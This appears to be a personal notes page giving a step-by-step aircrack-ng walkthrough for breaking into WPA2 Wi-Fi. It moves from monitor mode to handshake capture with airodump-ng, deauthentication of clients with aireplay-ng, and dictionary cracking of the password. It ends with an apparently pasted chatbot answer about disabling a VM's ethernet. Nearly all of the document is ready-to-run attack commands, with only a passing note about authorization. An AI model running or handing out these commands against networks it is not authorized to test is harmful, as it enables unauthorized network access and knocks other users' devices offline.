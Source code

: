 
## Use aircrack-ng to access a Wi-Fi with [[WPA2]] or weakest security

### 1. First we enable [[Monitor Mode]] on the [[Network Interface Card (NIC)]]

```bash
airmon-ng start wlan0
```
>[!Note] Check the interface name (usually it is wlan0, you can check it with `ifconfig` which will list the interfaces. If you are in a VM, you need an external Wi-Fi USB device.

### 2. Capture [[Handshake Packets]]

To capture this packets, we need to find nearby networks:

``` bash
airodump-ng wlan0
```
>[!Note] Remember to check the name of the interface. Here you will see the mac addresses and the SSID of the nearby networks.  If you want to save the logs in a file, you can use the -w flag. e.g. `airodump-ng -w networks_list wlan0`

Once you see the network you want to hack (your network or a network you're authorized to hack), start capturing packets:

airodump-ng -c [CHANNEL] --bssid [MAC_ROUTER] -w capture wlan0mon
Replace [CHANNEL] with the Wi-Fi channel and [MAC_ROUTER] with your router's MAC address.

3. Deauthenticate a Client (Force Handshake)
In a new terminal, send deauth packets to force a device to reconnect:

bash

aireplay-ng --deauth 5 -a [MAC_ROUTER] -c [MAC_CLIENT] wlan0mon
Wait until airodump-ng captures the handshake (top-right corner).

4. Crack the Password with a Dictionary
Run Aircrack-ng with your dictionary:


aircrack-ng -w mypasswords.txt -b [MAC_ROUTER] capture*.cap
If your password is in the dictionary, Aircrack-ng will find it!





should I disable my ethernet connection of the vm?

Not necessarily, but it depends on your setup.

If your VM is using Ethernet for internet and your Wi-Fi adapter is dedicated to monitor mode, you can keep Ethernet on.
If you're unsure, disabling Ethernet ensures all traffic is handled via Wi-Fi, avoiding conflicts.
To disable it:

bash
ifconfig eth0 down  # or
ip link set eth0 down
Re-enable it with:

bash
ifconfig eth0 up  # or
ip link set eth0 up
If everything works fine with Ethernet on, no need to disable it! 🚀